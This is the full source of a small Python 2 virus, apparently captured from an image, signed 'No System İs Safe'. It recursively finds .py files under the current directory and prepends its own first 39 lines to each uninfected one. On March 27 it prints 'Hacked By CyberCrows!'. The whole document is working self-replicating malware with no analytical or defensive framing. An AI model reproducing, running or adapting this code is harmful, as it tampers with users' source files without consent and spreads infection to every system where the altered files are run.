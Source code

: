 # Unknown
...
#!/usr/bin/python
import os
import datetime
SIGNATURE = "No System İs Safe"
def search(path):
    filestoinfect = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            filestoinfect.extend(search(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                filestoinfect.append(path+"/"+fname)
    return filestoinfect
def infect(filestoinfect):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if i>=0 and i <39:
            virusstring += line
    virus.close
    for fname in filestoinfect:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()
def bomb():
    if datetime.datetime.now().month == 3 and datetime.datetime.now().day == 27:
        print "Hacked By CyberCrows!"
filestoinfect = search(os.path.abspath(""))
infect(filestoinfect)
bomb()
